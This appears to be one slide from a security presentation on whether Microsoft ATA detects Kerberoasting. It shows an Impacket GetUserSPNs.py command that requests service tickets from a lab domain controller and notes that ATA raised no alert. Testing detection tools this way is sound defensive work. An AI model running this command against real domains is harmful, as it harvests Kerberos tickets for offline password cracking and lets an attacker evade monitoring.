

# MS ATA vs Kerberoasting
Kerberoasting:
GetUserSPNs.py -dc-ip 172.16.2.10 -request winlab.local/user1
No Detection – normal workflow
45